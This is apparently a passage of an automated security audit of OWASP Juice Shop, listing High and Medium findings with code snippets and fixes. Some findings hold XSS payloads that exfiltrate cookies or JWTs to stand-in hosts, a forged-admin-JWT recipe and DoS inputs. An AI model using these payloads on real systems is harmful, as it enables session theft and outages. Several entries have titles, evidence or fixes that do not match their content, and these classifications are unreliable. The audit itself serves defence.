<a id="t-027"></a><a id="f-027"></a>
#### F-027 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `package-lock.json:1`

**Issue:** No `package-lock.json` is committed to the repository. Each 'npm install' run resolves potentially different transitive dependency versions, making supply-chain attacks via version drift undetectable and build reproducibility impossible.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-026](#m-026) — Pin the container base image to an immutable digest · ❸ [M-068](#m-068) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:277`

**Issue:** The Express server mounts `encryptionkeys/` at `/encryptionkeys` (unauthenticated) via `serve-index` at `server.ts:277`. An unauthenticated HTTP GET to `/encryptionkeys/premium.key` returns the premium content key `1337133713371337.EA99A61D92D2955B1E9285B55BF2AD42`.

Similarly, `/ftp` at `server.ts:269` lists and serves `ftp/incident-support.kdbx` (a KeePass credential database), `ftp/acquisitions.md` (confidential M&A details), and `ftp/coupons_2013.md.bak` (expired coupon codes). Unauthenticated attacker downloads premium content key (unauthorized access to premium features), KeePass database (potential credential exposure), and confidential business documents.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:277` mounts `encryptionkeys/` directory with `serveIndex()` and no auth guard; `server.ts:269` does the same for `ftp/`. Both directories contain sensitive artifacts.

```typescript
// server.ts:277

  /* /encryptionkeys directory browsing */
  app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', { icons: true, view: 'details' }))
  app.use('/encryptionkeys/:file', serveKeyFiles())

```

**Fix:** ❷ [M-027](#m-027) — Remove public serve-index mounts for encryptionkeys/ and ftp/ or add authentication middleware · ❸ [M-069](#m-069) — Manual review: verify Sensitive Files Publicly Browsable via serve-index

**Classification:** Cryptographic Failures · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Error Message Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:281`

**Issue:** `server.ts:281-283` mounts serveIndex('logs', ...) and `serveLogFiles()` at `/support/logs` without any authentication middleware. HTTP access logs in combined Morgan format contain client IP addresses, full request URIs (including query strings with potentially sensitive tokens), HTTP methods, response codes, and user agent strings.

An unauthenticated attacker browses to `/support/logs`, lists available log files, and downloads them to map internal API call patterns, extract JWT tokens appearing in logged query parameters, or gather IP address and timing data for targeted attacks. Information disclosure of client IP addresses, request paths, and any tokens that appeared in query strings or Authorization headers during logging.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - serveIndex and serveLogFiles are mounted at `/support/logs` with no preceding `isAuthorized()` middleware.

```typescript
// server.ts:281

  /* /logs directory browsing */ // vuln-code-snippet neutral-line accessLogDisclosureChallenge
  app.use('/support/logs', serveIndexMiddleware, serveIndex('logs', { icons: true, view: 'details' })) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
  app.use('/support/logs', verify.accessControlChallenges()) // vuln-code-snippet hide-line
  app.use('/support/logs/:file', serveLogFiles()) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
```

**Fix:** Replace developer error pages with a generic message in production responses → ❷ [M-029](#m-029) — Return generic error messages to clients · ❸ [M-071](#m-071) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** The 2000ms timeout on `vm.runInContext` (line 23) is enforced per-request, but it blocks the `Node.js` event loop for the full duration because `vm.runInContext` runs synchronously. An authenticated attacker sends concurrent POST `/b2b/v2/orders` requests each containing an infinite-loop or computationally expensive expression (e.g., `while(true){}`).

With N concurrent requests, the event loop is blocked for up to N * 2000ms, making the application unresponsive for all other users. Application-wide denial of service: all request processing halts during eval execution; concurrent abuse makes the service continuously unavailable.

**Evidence:** ✓ verified - No rate-limit middleware appears on the `/b2b/v2` prefix in `server.ts` (lines 423, 645); the eval call at `b2bOrder.ts:23` is synchronous and blocks the Node\.js event loop for up to the full timeout period.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-030](#m-030) — Offload CPU-bound work and bound execution time · ❸ [M-072](#m-072) — Offload CPU-bound work and bound execution time

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/trackOrder.ts:18`

**Issue:** When challenge mode is active (`isChallengeEnabled(reflectedXssChallenge)`), `req.params.id` is truncated to 60 characters but otherwise unsanitized before embedding in `$where: \``this.orderId` === '\${id}'\``. A 60-character JavaScript payload such as `';while(1){}//<REDACTED - long hex>` causes the MarsDB `\$where` executor to spin indefinitely, blocking the `Node\.js` event loop and making the application unresponsive to all subsequent requests.

Attacker hangs the `Node.js` event loop; the entire application becomes unresponsive until the process is restarted.

**Evidence:** ✓ verified - Challenge-mode code path at `routes/trackOrder.ts:15-18` allows arbitrary 60-char JS in the `$where` clause without any CPU or timeout guard.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-031](#m-031) — Offload CPU-bound work and bound execution time · ❸ [M-073](#m-073) — Manual review: verify Event-Loop Blocking via MarsDB \$where JavaScript Injection

**Classification:** Injection · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:343`

**Issue:** `server.ts:343-347` applies express-rate-limit only to `/rest/user/reset-password`. The primary login endpoint POST `/rest/user/login` has no rate limiting or account lockout.

An attacker can send password guessing requests at wire speed (thousands per second within the Docker network). Account compromise via brute-force or credential stuffing; also enables enumeration of valid email addresses by observing response timing.

**Evidence:** ✓ verified - Only `/rest/user/reset-password` has a `rateLimit()` middleware; POST `/rest/user/login` has no rate-limit or lockout middleware in the `server.ts` routing table.

```typescript
// server.ts:343
  /* Rate limiting */
  app.enable('trust proxy')
  app.use('/rest/user/reset-password', rateLimit({
    windowMs: 5 * 60 * 1000,
    max: 100,
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-032](#m-032) — Rate-limit and lock out repeated authentication attempts · ❸ [M-074](#m-074) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:117`

**Issue:** An attacker uploads a YAML file containing a billion-laughs amplification chain: a root anchor that references deeply nested aliases expanding to gigabytes of data. `yaml.load(data)` is called via `vm.runInContext` on line 117.

The `js-yaml` library's `load()` function (not `safeLoad`) performs full YAML parsing including all anchor/alias expansion before the VM timeout fires. A single crafted YAML upload can crash the `Node.js` process, causing a full application denial of service.

**Evidence:** ✓ verified - `yaml.load(data)` on line 117 performs unbounded alias expansion; `checkUploadSize` at line 62 logs the oversize condition but does not reject the request.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-033](#m-033) — Bound parser and decompression resource limits · ❸ [M-075](#m-075) — Bound parser and decompression resource limits

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · XML Billion-Laughs Entity Expansion DoS

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** An attacker uploads an XML file with a DOCTYPE containing recursively-defined entities (billion-laughs pattern). With `noent: true` set on line 83, libxmljs2 expands all entity references during parsing.

The expansion occurs in native C++ code (libxmljs2 wraps libxml2), and memory consumption can reach gigabytes within milliseconds - before the 2-second vm timeout fires. A single malicious XML upload crashes the application process, denying service to all concurrent users.

**Evidence:** ✓ verified - `libxml.parseXml` with `noent: true` on line 83 performs entity expansion in native code before any JavaScript timeout can interrupt it.

```typescript
// routes/fileUpload.ts:83
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** ❷ [M-034](#m-034) — Bound parser resource consumption · ❸ [M-076](#m-076) — Bound parser resource consumption

**Classification:** Denial of Service · [CWE-776](https://cwe.mitre.org/data/definitions/776.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Client-Side-Only Admin Accounting Route Guards

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/app.guard.ts:52`

**Issue:** `app.guard.ts:52-57` (`AdminGuard.canActivate`) decodes the JWT from `localStorage` via `jwtDecode()` and checks `payload.data.role === roles.admin`. `jwtDecode` decodes without signature verification - it never calls `jwtVerify()`.

An attacker crafts a JWT with `{"data":{"role":"admin"}}`, base64url-encodes the three sections with an arbitrary signature, places it in `localStorage.token`, and navigates to `/#/administration`. Any user can navigate to admin and accounting Angular routes without a genuine admin JWT.

Combined with any server-side authorization gap, this enables privilege escalation.

**Evidence:** ✓ verified - `AdminGuard` at line 52 calls `jwtDecode()` (decode-only) not `jwtVerify()`, so any JWT with an `admin` role claim passes the guard regardless of signature.

**Fix:** ❷ [M-035](#m-035) — Document client-side guards as UI-only and ensure all admin API routes enforce server-side JWT verification · ❸ [M-077](#m-077) — Manual review: verify Client-Side-Only Admin and Accounting Route Guards

**Classification:** Broken Authentication · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/track-result/track-result.component.ts:45`

**Issue:** `track-result.component.ts:45` reads `this.orderId = this.route.snapshot.queryParams.id` and immediately calls `this.trackOrderService.find(this.orderId)`. The `/track-result` route has no `canActivate` guard in `app.routing.ts:178-187` - the route is accessible to unauthenticated users.

No ownership check occurs in the component. Any unauthenticated user can enumerate order details (email, products purchased, price, delivery status) for any order ID, leaking customer PII.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `track-result.component.ts:45` passes `queryParams.id` directly to the track-order service with no authentication guard and no ownership assertion on the component.

```typescript
// frontend/src/app/track-result/track-result.component.ts:45

  ngOnInit (): void {
    this.orderId = this.route.snapshot.queryParams.id
    this.trackOrderService.find(this.orderId).subscribe((results) => {

```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-036](#m-036) — Enforce object-level (ownership) authorization · ❸ [M-078](#m-078) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Unrestricted File Upload

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/profileImageUrlUpload.ts:28`

**Issue:** An authenticated attacker supplies a URL ending in `.svg` pointing to attacker-controlled content containing `<svg xmlns='http://www.w3.org/2000/svg'><script>document.location='https://evil.com/?c='+document.cookie</script></svg>`. The extension is derived from the URL on line 28 with no content-type validation; the URL's hostname is not verified against an allowlist.

The fetched SVG bytes are written to `frontend/dist/frontend/assets/public/images/uploads/<userId>.svg` on line 29. Attacker can execute JavaScript in the browser context of any user who views the malicious profile, enabling session hijacking and privilege escalation to admin.

**Evidence:** ✓ verified - Extension is extracted from the URL string on line 28 without content-type inspection; the response body is written directly to the static-assets upload directory on line 29.

```typescript
// routes/profileImageUrlUpload.ts:28
            throw new Error('url returned a non-OK status code or an empty body')
          }
          const ext = ['jpg', 'jpeg', 'png', 'svg', 'gif'].includes(url.split('.').slice(-1)[0].toLowerCase()) ? url.split('.').slice(-1)[0].toLowerCase() : 'jpg'
          const fileStream = fs.createWriteStream(`frontend/dist/frontend/assets/public/images/uploads/${loggedInUser.data.id}.${ext}`, { flags: 'w' })
          await finished(Readable.fromWeb(response.body as any).pipe(fileStream))
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ❷ [M-038](#m-038) — Validate Content-Type of fetched URL and block SVG/HTML uploads in profile image URL handler · ❸ [M-080](#m-080) — Manual review: verify Stored XSS via SVG Profile Image Upload

**Classification:** Injection · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/updateProductReviews.ts:17`

**Issue:** All data-layer mutation routes (review updates, login attempts, order creation) execute without writing any security audit record. When `db.reviewsCollection.update()` succeeds in `routes/updateProductReviews.ts`, no record of who changed which review to what value is written to a durable log.

After a mass-injection attack (threat data-layer-004), an operator cannot determine the scope, timing, or actor of the modification because no append-only log exists. No forensic trail exists for authentication bypass or bulk data mutations; attackers can deny actions and defenders cannot reconstruct timelines.

**Evidence:** ✓ verified - No structured security log call (e.g., winston security logger, audit table write) appears in `routes/updateProductReviews.ts`, `routes/login.ts`, or the data module `data/mongodb.ts`.

```typescript
// routes/updateProductReviews.ts:17
  return (req: Request, res: Response, next: NextFunction) => {
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
      { $set: { message: req.body.message } },
```

**Fix:** ❷ [M-003](#m-003) — Add security audit logging · ❸ [M-048](#m-048) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `models/user.ts:77`

**Issue:** All user passwords are stored as unsalted `MD5` hashes (`crypto.createHash('md5')` in `lib/insecurity.ts:43`, called from `models/user.ts:77`). When an attacker extracts the Users table via SQL injection (threat data-layer-001/002), the `MD5` digests are recoverable to plaintext within minutes using precomputed rainbow tables or GPU-accelerated cracking.

For example, the seeded admin password `admin123` hashes to `0192023a7bbd73250516f069df18b500` - cracked in under a second on any modern GPU. All user passwords are recoverable from a database dump within minutes; enables credential stuffing attacks across external services.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `security.hash(clearTextPassword)` resolves to `crypto.createHash('md5').update(data).digest('hex')` at `lib/insecurity.ts:43`; no salt is added; this hash is stored via the Sequelize `set()` hook at `models/user.ts:77`.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-028](#m-028) — Hash passwords with a strong, salted algorithm · ❸ [M-070](#m-070) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/updateProductReviews.ts:16`

**Issue:** The route handler reads `user` from the JWT at `routes/updateProductReviews.ts:16` (`security.authenticatedUsers.from(req)`), but never validates that the target review's `author` field matches `user.data.email`. An authenticated attacker with a valid JWT for account A can supply the `_id` of a review authored by account B and overwrite its `message`.

Because the update succeeds regardless of authorship, any authenticated user can edit any review. Any authenticated user can modify or delete reviews authored by others, undermining content integrity and enabling reputation attacks.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `security.authenticatedUsers.from(req)` is called at line 16 but `user.data.email` is never included in the MarsDB filter predicate; the update at line 17-20 matches only on `_id`.

```typescript
// routes/updateProductReviews.ts:16
export function updateProductReviews () {
  return (req: Request, res: Response, next: NextFunction) => {
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-037](#m-037) — Enforce object-level (ownership) authorization · ❸ [M-079](#m-079) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Data disclosure

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `data/static/challenges.yml:1381`

**Issue:** Data disclosure through cleartext transport.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Credentials or session material cross the wire over a clear-text channel.

```yaml
// data/static/challenges.yml:1381
  name: 'CSRF' # FIXME No e2e test automation! No longer works in Chrome >=80 and Firefox >=100 or other latest browsers!
  category: 'Broken Access Control'
  description: 'Change the name of a user by performing Cross-Site Request Forgery from <a href="http://htmledit.squarefree.com">another origin</a>.'
  difficulty: 3
  hints:
```

**Fix:** Force TLS on every transport channel and reject downgrades → ❷ [M-047](#m-047) — Data disclosure through cleartext transport · ❸ [M-087](#m-087) — Manual review: verify Data disclosure through cleartext transport

**Classification:** Cryptographic Failures · [CWE-319](https://cwe.mitre.org/data/definitions/319.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/about/about.component.ts:119`

**Issue:** `about.component.ts:119` calls `this.sanitizer.bypassSecurityTrustHtml(feedbacks[i].comment)` for every feedback entry loaded from `/api/Feedbacks`. Any authenticated user can submit a feedback comment (the feedback endpoint requires no privilege elevation).

An attacker registers an account, submits feedback containing `<script>fetch('https://evil.example/exfil?t='+localStorage.getItem('token'))</script>`, and the payload executes for every user who visits the About page. Stored XSS executes for all About-page visitors; with no CSP, the script can exfiltrate JWTs, impersonate users, or chain into admin account takeover.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `bypassSecurityTrustHtml()` at line 119 renders server-returned feedback comments as trusted HTML without sanitization.

```typescript
// frontend/src/app/about/about.component.ts:119
            feedbacks[i].comment
          }</p><div class="feedback-stars">(${this.stars[feedbacks[i].rating]})</div></figcaption>`
          feedbacks[i].comment = this.sanitizer.bypassSecurityTrustHtml(
            feedbacks[i].comment
          )
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-017](#m-017) — Encode output instead of bypassing the framework sanitizer · ❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** `last-login-ip.component.ts:39` calls `this.sanitizer.bypassSecurityTrustHtml('<small>${payload.data.lastLoginIp}</small>')` where `payload.data.lastLoginIp` is decoded from the JWT stored in localStorage without signature re-verification. If an attacker can influence the `lastLoginIp` JWT claim - e.g. by controlling the `X-Forwarded-For` header during login, which some reverse-proxy configurations pass through to the application - they can inject `<script>` payloads that execute when the victim views the Last Login IP page.

If `lastLoginIp` can contain HTML (set by a header or via backend logic), the SPA executes it as script when the user visits `privacy-security/last-login-ip`.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `parseAuthToken()` at line 39 interpolates `payload.data.lastLoginIp` into an HTML string and marks it as trusted without sanitizing the IP value.

```typescript
// frontend/src/app/last-login-ip/last-login-ip.component.ts:39
      if (payload.data.lastLoginIp) {

        this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)
      }
    }
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-018](#m-018) — Encode output instead of bypassing the framework sanitizer · ❸ [M-059](#m-059) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:132`

**Issue:** `search-result.component.ts:132` calls `this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` for every product returned by `GET /api/Products`. Product descriptions are editable by admin-role users via `PUT /api/Products/:id`.

An admin (or attacker who escalates to admin) can embed `<script>` in a product description; the payload executes for every user who loads the search or product-listing page. Persistent XSS that fires for all users loading product listings; combined with JWT in localStorage, results in mass session hijacking.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `trustProductDescription()` at line 130-134 unconditionally wraps all product descriptions as trusted HTML before template rendering.

```typescript
// frontend/src/app/search-result/search-result.component.ts:132
  trustProductDescription (tableData: any[]) { // vuln-code-snippet neutral-line restfulXssChallenge
    for (let i = 0; i < tableData.length; i++) { // vuln-code-snippet neutral-line restfulXssChallenge
      tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description) // vuln-code-snippet vuln-line restfulXssChallenge
    } // vuln-code-snippet neutral-line restfulXssChallenge
  } // vuln-code-snippet neutral-line restfulXssChallenge
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-019](#m-019) — Encode output instead of bypassing the framework sanitizer · ❸ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:170`

**Issue:** `search-result.component.ts:170` calls `this.sanitizer.bypassSecurityTrustHtml(queryParam)` where `queryParam = this.route.snapshot.queryParams.q`. The value is taken directly from the URL search query, never sanitized, and assigned to `this.searchValue` which is rendered as inner HTML in the template.

An attacker sends the victim a link such as `/#/search?q=` - the browser executes the script in the context of the Juice Shop origin, exfiltrating the JWT from `localStorage`. Arbitrary JavaScript executes in the victim's browser; the JWT stored in `localStorage` is immediately accessible via `localStorage.getItem('token')` and can be exfiltrated to an attacker-controlled endpoint.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `bypassSecurityTrustHtml(queryParam)` at line 170 directly trusts the URL `q` parameter as HTML, skipping Angular's built-in DOM sanitizer.

```typescript
// frontend/src/app/search-result/search-result.component.ts:170
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-020](#m-020) — Encode output instead of bypassing the framework sanitizer · ❸ [M-061](#m-061) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/data-export/data-export.component.ts:71`

**Issue:** `data-export.component.ts:71` calls `window.open('', '_blank', 'width=500')?.document.write(this.userData)`. `this.userData` is set at line 70 from `data.userData` returned by the backend.

`document.write()` on a new window bypasses Angular's DOM sanitizer entirely - any HTML or script tags in `userData` are parsed and executed by the browser. If `userData` contains script tags, they execute in a new window under the Juice Shop origin, with full access to `localStorage` and cookies in that window context.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `document.write(this.userData)` at line 71 writes server-returned content directly into a new window's DOM with no sanitization.

```typescript
// frontend/src/app/data-export/data-export.component.ts:71
        this.confirmation = data.confirmation
        this.userData = data.userData
        window.open('', '_blank', 'width=500')?.document.write(this.userData)
        this.lastSuccessfulTry = new Date()
        localStorage.setItem('lstdtxprt', JSON.stringify(this.lastSuccessfulTry))
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-022](#m-022) — Encode output instead of bypassing the framework sanitizer · ❸ [M-063](#m-063) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (6)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Missing Authentication

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/Services/socket-io.service.ts:21`

**Issue:** `socket-io.service.ts:21` opens a Socket\.IO connection to `window.location.origin` on every app instantiation. No authentication token is attached during the handshake - the connection is established before any login check.

Unauthenticated actors can emit arbitrary Socket\.IO events to the server; server-side event handlers that trust the channel without validating authentication are exploitable.

**Evidence:** ✓ verified - `io(window.location.origin, { path: ... })` at line 21 establishes the Socket\.IO connection with no `auth` token or `extraHeaders` - the handshake is anonymous.

**Fix:** ❸ [M-039](#m-039) — Attach JWT to Socket\.IO handshake and validate authentication in server-side connection middleware · ❸ [M-081](#m-081) — Manual review: verify Unauthenticated Socket\.IO Connection from SPA

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:33`

**Issue:** When the `notevil` evaluator throws an unrecognised exception (any error not matching 'Script execution timed out'), the handler calls next(err) at line 33, forwarding the raw Error object to Express's global error handler. The default Express error handler returns the error message and potentially a stack trace to the HTTP client with status 500.

Sandbox internals and `Node.js` version disclosed; reduces attacker effort for sandbox escape by confirming which constructs are blocked.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

